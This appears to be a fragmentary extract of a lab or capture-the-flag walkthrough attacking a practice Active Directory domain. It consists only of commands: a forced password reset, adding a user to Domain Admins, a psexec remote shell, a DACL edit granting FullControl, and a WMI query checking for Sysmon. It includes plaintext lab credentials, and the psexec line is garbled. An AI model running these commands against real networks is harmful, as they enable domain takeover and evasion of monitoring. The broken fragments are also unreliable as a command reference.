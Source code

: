 
impacket-changepasswd bloodhound.thl/michael.jones@192.168.56.105 -newpass 'Password@987' -p rpc-samr

bloodyAD --host "192.168.56.105" -d "bloodhound.thl" -u "patricia.brown" -p "Patito12345" add groupMember "Domain Admins" "patricia.brown"


impacket-psexec patricia.brow:Patito12345@1@bloodhound.thl -dc-ip 192.168.56.105


impacket-dacledit -action 'write' -rights 'FullControl' -principal 'patricia.brown' -target 'michael.jones' 'bloodhound.thl/patricia.brown:Patito12345'

------------------------------------------------------------------------

--wmi "SELECT Caption,ProcessId FROM Win32_Process WHERE Caption LIKE '%sysmon%'"

------------------------------------------------------------------------

------------------------------------------------------------------------
------------------------------------------------------------------------

------------------------------------------------------------------------

------------------------------------------------------------------------

